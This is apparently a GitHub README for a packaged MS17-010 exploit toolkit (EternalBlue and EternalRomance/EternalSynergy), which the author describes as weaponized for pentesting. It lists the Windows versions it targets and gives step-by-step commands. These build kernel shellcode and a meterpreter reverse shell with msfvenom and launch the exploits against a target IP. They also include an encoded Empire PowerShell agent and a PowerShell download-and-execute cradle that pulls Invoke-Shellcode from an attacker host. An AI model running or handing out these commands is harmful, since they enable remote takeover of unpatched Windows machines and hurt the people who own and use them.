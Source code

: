 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance, so don't try this on critical systems. 

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 R2 SP1 x64
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. You can use `find_named_pipe.py` to find available named pipes on the target.

### Compatible targets

- Windows Server 2016 x64
- Windows Server 2012 R2 x64
- Windows Server 2008 R2 SP1 x64
- Windows 10 x64
- Windows 10 x86
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x64
- Windows 7 SP1 x86

### Usage

Example for finding a named pipe:

`python find_named_pip.py 192.168.178.2 testuser !Password123`

Usage of `eternalsynergy_romance.py`: 

`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
